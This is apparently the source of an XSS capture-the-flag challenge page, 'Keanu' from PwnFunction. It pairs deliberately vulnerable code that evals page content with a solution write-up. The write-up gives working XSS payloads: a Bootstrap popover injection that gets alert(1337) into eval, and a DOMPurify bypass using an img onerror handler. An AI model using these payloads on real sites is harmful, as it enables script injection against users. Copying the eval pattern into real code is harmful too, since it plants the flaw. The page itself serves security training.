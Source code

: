 ```yaml
---
title: "XSS Game - Keanu | PwnFunction"
header: "Keanu"
challengeUrl: "https://sandbox.pwnfunction.com/challenges/keanu.html"
date: 2020-01-19T14:59:07+05:30
draft: false
type: challenge
difficulty: Medium
solvers: 9
---
```


<!-- Rules -->
{{< rules >}}
<li>Difficulty is <b>Medium</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
<li>Unintended solution? DM me <a target="_blank"
                            href="https://twitter.com/messages/compose?recipient_id=1084132461133451264"
                            class="function">@PwnFunction</a>.
                    </li>
{{</ rules >}}

<!-- Challenge Code -->
{{< code >}}<code class="language-markup">&#x3C;!-- Challenge --&#x3E;
&#x3C;number id=&#x22;number&#x22; style=&#x22;display:none&#x22;&#x3E;&#x3C;/number&#x3E;
&#x3C;div class=&#x22;alert alert-primary&#x22; role=&#x22;alert&#x22; id=&#x22;welcome&#x22;&#x3E;&#x3C;/div&#x3E;
&#x3C;button id=&#x22;keanu&#x22; class=&#x22;btn btn-primary btn-sm&#x22; data-toggle=&#x22;popover&#x22; data-content=&#x22;DM @PwnFunction&#x22;
    data-trigger=&#x22;hover&#x22; onclick=&#x22;alert(&#x60;If you solved it, DM me @PwnFunction :)&#x60;)&#x22;&#x3E;Solved it?&#x3C;/button&#x3E;
    
&#x3C;script&#x3E;
    /* Input */
    var number = (new URL(location).searchParams.get(&#x27;number&#x27;) || &#x22;7&#x22;)[0],
        name = DOMPurify.sanitize(new URL(location).searchParams.get(&#x27;name&#x27;), { SAFE_FOR_JQUERY: true });
    $(&#x27;number#number&#x27;).html(number);
    document.getElementById(&#x27;welcome&#x27;).innerHTML = (&#x60;Welcome &#x3C;b&#x3E;${name || &#x22;Mr. Wick&#x22;}!&#x3C;/b&#x3E;&#x60;);

    /* Greet */
    $(&#x27;#keanu&#x27;).popover(&#x27;show&#x27;)
    setTimeout(_ =&#x3E; {
        $(&#x27;#keanu&#x27;).popover(&#x27;hide&#x27;)
    }, 2000)

    /* Check Magic Number */
    var magicNumber = Math.floor(Math.random() * 10);
    var number = eval($(&#x27;number#number&#x27;).html());
    if (magicNumber === number) {
        alert(&#x22;You&#x27;re Breathtaking!&#x22;)
    }
&#x3C;/script&#x3E;</code>{{< /code >}}

<!-- Solution Modal -->
{{< solution >}}
<h3>Intended</h3>
<p>Looking at the code, we'll see that it takes in two GET parameters <code>number</code> and
<code>name</code>. <code>number</code> can only be one character and <code>name</code> can be an
arbitrary value, but it's sanitized using <a href="https://github.com/cure53/DOMPurify"
    target="_blank"><b>DOMPurify</b></a>. The website also uses <a
    href="https://getbootstrap.com/"><b>Bootstrap</b></a>. The goal is to make our input land
inside the <code>eval</code>.
<pre
    class="solution-code-block"><code class="language-js">eval($('number#number').html())</code></pre>
We do control <code>$('number#number')</code>, but the issue is that it can only be one
character long. Now the question can we append some data to this tag before it lands into
<code>eval</code>? <br>
<br>
Yes, we can. <br>
Fortunately, we have <a
    href="https://getbootstrap.com/docs/4.0/components/popovers/"><b>Bootstrap Popovers</b></a>,
which is just an HTML popover, but the nice thing about this is that we can tell where this
popover should go using <code>data-container</code>. If we set the
<code>data-container=number</code>, this will insert the popover inside <code>number</code>
element, which is exactly what we need. <br><br>

Consider the following.
<pre class="solution-code-block"><code class="language-markup">number=7
name=&#x3C;button data-toggle=popover data-container=number data-content=&#x22;blah blah&#x22;&#x3E;</code></pre>

The resulting <code>number.innerHTML</code> will be the following.
<pre
    class="solution-code-block"><code class="language-markup">7&#x3C;some-popover-template-html-code&#x3E;blah blah&#x3C;some-popover-template-html-code&#x3E;</code></pre>
<br>

Now we can control the value that lands inside <code>eval</code>, but it's not valid Javascript.
To make this a valid Javascript code, we need to get rid of the popover HTML template. We
usually think about comments to get rid of some code, but here, the value of <code>number</code>
can only be a character long, so we instead use strings. <br><br>

Consider the following.
<pre class="solution-code-block"><code class="language-markup">number='
name=&#x3C;button data-toggle=popover data-container=number data-content=&#x22;'-alert(1337)//&#x22;&#x3E;</code></pre>

The resulting <code>number.innerHTML</code> will be the following.
<pre
    class="solution-code-block"><code class="language-js">&#x27;&#x3C;some-popover-template-html-code&#x3E;&#x27;-alert(1337)//&#x3C;some-popover-template-html-code&#x3E;</code></pre>
<br>

If we try this, the XSS wouldn't work, because <code>popover('show')</code> has to be called on
our popover element, so that Bootstrap would inject our code to the <code>number</code> tag. But
there's
already <code>popover('show')</code> called on <code>#keanu</code>. We can set the <b>id</b> to
<code>keanu</code>
so that Bootstrap would use our button instead of the already exisiting one. <br><br>

Final Solution
<pre
    class="solution-code-block"><code class="language-markup">number='
name=&#x3C;button data-toggle=popover data-container=number id=keanu data-content=&#x22;'-alert(1337)//&#x22;&#x3E;</code></pre>
</p>
<br>
<h3>Unintended (<a href="https://twitter.com/@Int3rN3t3r" target="_blank">@Int3rN3t3r</a>)</h3>
<pre
    class="solution-code-block"><code class="language-markup">name=&#x3C;img x=&#x22;/&#x3E;&#x3C;img src=x onerror=alert(1337)&#x3E;&#x22; y=&#x22;&#x3C;x&#x22;&#x3E;</code></pre>

This was possible because of a recent <a href="https://github.com/cure53/DOMPurify/commit/0bb582df5a732f06f43790cfb7da006c851fbe7f" target="_blank" class="function">DOMPurify bypass for Jquery</a> found by <a href="https://twitter.com/kinugawamasato" target="_blank" class="pwn">Masato Kinugawa</a>.
{{< /solution >}}

<!-- Solvers -->
{{< solvers >}}
<tr>
    <th scope="row">1</th>
    <td><a href="https://twitter.com/@lbherrera_" target="_blank"
            class="function">@lbherrera_</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">2</th>
    <td><a href="https://twitter.com/@terjanq" target="_blank" class="function">@terjanq</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">3</th>
    <td><a href="https://twitter.com/@RenwaX23" target="_blank"
            class="function">@RenwaX23</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">4</th>
    <td><a href="https://twitter.com/@Abdulahhusam" target="_blank"
            class="function">@Abdulahhusam</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">5</th>
    <td><a href="https://twitter.com/@suskind" target="_blank" class="function">@suskind</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">6</th>
    <td><a href="https://twitter.com/@Zeev42746664" target="_blank"
            class="function">@Zeev42746664</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">7</th>
    <td><a href="https://twitter.com/@BenHayak" target="_blank"
            class="function">@BenHayak</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">8</th>
    <td><a href="https://twitter.com/@20backslash" target="_blank"
            class="function">@20backslash</a>
    </td>
    <td>Intended</td>
</tr>
<tr>
    <th scope="row">9</th>
    <td><a href="https://twitter.com/@Int3rN3t3r" target="_blank"
            class="function">@Int3rN3t3r</a>
    </td>
    <td>Unintended</td>
</tr>
{{< /solvers >}}